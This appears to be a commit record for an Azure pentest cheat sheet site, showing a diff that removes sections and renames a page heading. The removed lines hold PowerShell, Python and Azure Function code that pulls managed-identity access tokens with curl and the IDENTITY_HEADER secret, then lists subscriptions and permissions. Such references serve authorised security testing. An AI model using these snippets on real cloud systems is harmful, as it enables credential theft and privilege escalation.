

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/azure/Cloud - Azure Pentest.md, in a window 1280 px wide and 1400 px high, scrolled down 4152 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Access Token and API

````diff
--- a/docs/cloud/azure/Cloud - Azure Pentest.md
+++ b/docs/cloud/azure/Cloud - Azure Pentest.md
@@ -6,8 +6,6 @@
 * [Enumeration](#enumeration)
     * [Enumeration methodology](#enumeration-methodology)
 * [Token from Managed Identity](#token-from-managed-identity)
-    * [Azure API via Powershell](#azure-api-via-powershell)
-    * [Azure API via Python Version](#azure-api-via-python-version)
     * [Refresh Tokens](#refresh-token)
 * [Stealing Tokens](#stealing-tokens)
     * [Stealing tokens from az cli](#stealing-tokens-from-az-cli)
@@ -176,64 +174,6 @@
 * [**dafthack/GraphRunner**](https://github.com/dafthack/GraphRunner) - A Post-exploitation Toolset for Interacting with the Microsoft Graph API
 
 ## Token from Managed Identity
-
-### Azure API via Powershell
-
-Get **access_token** from **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.
-
-Then query the Azure REST API to get the **subscription ID** and more .
-
-```powershell
-$Token = 'eyJ0eX..'
-$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
-# $URI = 'https://graph.microsoft.com/v1.0/applications'
-$RequestParams = @{
- Method = 'GET'
- Uri = $URI
- Headers = @{
- 'Authorization' = "Bearer $Token"
- }
-}
-(Invoke-RestMethod @RequestParams).value
-
-# List resources and check for runCommand privileges
-$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
-$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
-```
-
-### Azure API via Python Version
-
-```py
-IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
-IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
-
-print("[+] Management API")
-cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
-val = os.popen(cmd).read()
-print("Access Token: "+json.loads(val)["access_token"])
-print("ClientID/AccountID: "+json.loads(val)["client_id"])
-
-print("\r\n[+] Graph API")
-cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
-val = os.popen(cmd).read()
-print(json.loads(val)["access_token"])
-print("ClientID/AccountID: "+json.loads(val)["client_id"])
-```
-
-or inside a Python Function:
-
-```py
-import logging, os
-import azure.functions as func
-
-def main(req: func.HttpRequest) -> func.HttpResponse:
-    logging.info('Python HTTP trigger function processed a request.')
-    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
-    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
-    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
-    val = os.popen(cmd).read()
-    return func.HttpResponse(val, status_code=200)
-```
 
 ### Refresh Tokens
 
--- a/docs/cloud/azure/azure-ad-connect.md
+++ b/docs/cloud/azure/azure-ad-connect.md
@@ -1,4 +1,4 @@
-# Microsoft Entra Connect
+# Azure AD Connect
 
 Check if Azure AD Connect is installed : `Get-ADSyncConnector`
 
````
Also changed, not shown: docs/cloud/azure/azure-access-and-token.md (+111 -87 lines).
